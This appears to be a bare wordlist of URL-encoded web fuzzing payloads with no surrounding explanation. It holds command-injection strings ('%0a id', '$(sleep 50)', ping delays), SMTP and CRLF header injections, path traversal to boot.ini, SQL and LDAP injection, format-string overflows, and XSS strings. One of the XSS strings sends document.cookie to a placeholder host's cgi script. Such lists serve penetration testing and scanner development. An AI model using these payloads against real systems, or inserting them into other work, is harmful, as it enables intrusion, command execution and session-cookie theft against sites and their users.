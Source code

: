 %0A/usr/bin/id%0A
%0Aid
%0Aid%0A
%0a ping -i 30 127.0.0.1 %0a
%oa ping -n 30 127.0.0.1 %0a
%0a id %0a
%0aDATA%0afoo%0a%2e%0aMAIL+FROM:+<youremail>%0aRCPT+TO:+<youremail>%0aDATA%0aFrom:+<youremail>%0aTo:+<youremail>%0aSubject:+tst%0afoo%0a%2e%0a
%0d
%0d%0aDATA%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+<youremail>%0d%0aRCPT+TO:+<youremail>%0d%0aDATA%0d%0aFrom:+<youremail>%0d%0aTo:+<youremail>%0d%0aSubject:+test%0d%0afoo%0d%0a%2e%0d%0a
%0d%0aX-Injection-Header:%20AttackValue
%20
%20$(sleep%2050)
%20'sleep%2050'
%20d
%20n
%20s
%20x
%20|
%21
%22%3E%3Cscript%3Edocument%2Elocation%3D%27http%3A%2F%2Fyour%2Esite%2Ecom%2Fcgi%2Dbin%2Fcookie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%		25%5c..%25%5c..%255cboot.ini
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%	25%5c..%25%5c..%00
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%00
%2500
%250a
%26
%27%20or%201=1
%28
%29
%2A
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
%2C
%2e%2e%2f
%3C
%3C%3F
%3Cscript%3Ealert(%22X%20SS%22);%3C/script%3E
%3cscript%3ealert("XSS");%3c/script%3e
%3cscript%3ealert(document.cookie);%3c%2fscript%3e
%5C
%5C/
%60
%7C
%7f
%99999999999s
%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A%A
%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E%E
%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F%F
%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G%G
%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X
%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a%a